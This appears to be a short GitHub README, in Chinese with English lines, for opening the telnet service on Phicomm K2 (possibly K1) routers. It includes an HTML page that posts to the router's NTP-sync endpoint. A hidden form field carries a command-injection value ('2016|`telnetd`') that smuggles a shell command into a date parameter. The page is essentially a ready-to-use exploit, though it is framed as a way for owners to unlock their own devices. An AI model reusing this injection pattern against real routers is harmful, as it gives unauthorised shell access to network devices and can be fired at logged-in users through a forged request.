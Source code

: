 # phicomm_k2
斐讯k2路由器远程开启telnet

1.请在本地登陆路由器管理界面，然后使用浏览器打开opnetelnet.html，点击按钮，不出意外就会开启telnetd服务。
2.如果你的phicomm k2 路由器的网关地址修改过，请把html文件里的url修改成你的路由器地址。
3.本方法可能也适用于k1型号路由器。

<html> 
    <head> 
    <meta http-equiv="content-type" content="text/html;charset=utf-8"> 
    <title>phicomm k2 oepn telnetd</title> 
    </head> 
    <style> 
    .main{width:980px;height:600px;margin:0 auto;} 
    .url{width:300px;} 
    .fn{width:60px;} 
    .content{width:80%;height:60%;} 
    </style> 
    <script> 
      function open(){ 
        var url = document.getElementById('url').value, 
          fileName = document.getElementById('exploit').value, 
          form = document.getElementById('fm'); 
        form.action = url; 
        form.submit(); 
      } 
    </script> 
    <body> 
    <div class="main"> 
      <form id="fm" method="post">   
        先登入斐讯k2路由器，然后点击按钮，如果你的路由器的网关不是192.168.2.1，请先修改下面的表单。<br><br>
        Please login your phicomm k2 router,and click the button,if your route's gateway ip is not 192.168.2.1,please modify the form.<br><br><br/> <br/> 
        URL:<input type="text" value="http://192.168.2.1/goform/gra_NTPSyncWithLocal" class="url" id="url"/>&nbsp;&nbsp; 
        <input type="hidden" name="text_year" value="2016|`telnetd`" class="exploit" id="exploit" />
        <a href="javascript:open();">open telnetd</a><br/> <br/> <br/> <br/> <br/> 
        code by ha.cker@Me.com
      </form> 
    </div> 
    </body> 
    </html>
